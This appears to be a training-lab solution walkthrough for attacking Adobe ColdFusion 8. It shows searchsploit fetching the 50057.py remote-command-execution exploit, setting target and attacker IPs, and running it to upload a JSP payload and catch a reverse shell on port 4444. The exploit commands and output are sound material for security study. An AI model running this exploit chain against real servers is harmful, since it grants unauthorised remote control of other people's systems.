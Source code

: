 # Attacking ColdFusion

## Question 1

### "What user is ColdFusion running as?"

After spawning the target machine, students need to use `searchsploit` to mirror the `50057.py` exploit file:

Code: shell

```shell
searchsploit -m 50057.py
```

```
┌─[us-academy-1]─[10.10.14.149]─[htb-ac-413848@htb-w6o57y3g3a]─[~]
└──╼ [★]$ searchsploit -m 50057.py

  Exploit: Adobe ColdFusion 8 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50057
     Path: /usr/share/exploitdb/exploits/cfm/webapps/50057.py
File Type: Python script, ASCII text executable

Copied to: /home/htb-ac-413848/50057.py
```

Then, students need to modify the connection information in the script, adjusting for `STMIP` and `PWNIP`:

![[HTB Solutions/CPTS/z. images/ddf9387ef407a2d4096341875aad5e67_MD5.jpg]]

At last, students need to run the script to achieve remote code execution:

Code: shell

```shell
python3 50057.py
```

```
┌─[us-academy-1]─[10.10.14.125]─[htb-ac-594497@htb-vunctsni1b]─[~]
└──╼ [★]$ python3 50057.py

Generating a payload...
Payload size: 1498 bytes
Saved as: 5b837f3e1175462e8d8229e3901e92d5.jsp

<SNIP>

lhost: 10.10.14.125
lport: 4444
rhost: 10.129.231.114
rport: 8500
payload: 5b837f3e1175462e8d8229e3901e92d5.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.231.114.
Ncat: Connection from 10.129.231.114:49238.
```